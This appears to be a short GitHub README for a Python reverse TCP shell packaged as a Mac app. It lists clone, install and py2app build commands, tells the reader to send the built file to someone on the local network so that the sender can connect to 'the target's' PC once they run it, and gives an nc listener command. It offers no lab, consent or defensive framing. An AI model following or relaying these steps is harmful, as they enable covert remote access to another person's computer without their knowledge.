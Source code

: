 # Reverse-TCP-Shell
Local Area Reverse TCP Shell Using Python For Mac

$ git clone https://github.com/neaderlord/Reverse-TCP-Shell-For-Mac

$ cd Reverse-TCP-Shell-For-Mac

$ pip3 install -r requirements.txt

$ python3 setup.py py2app -A

Send the file to someone in your local area when the target execute the file you can connect the targets PC.

(Remember to open a listener by $nc -lvnp "your_port")
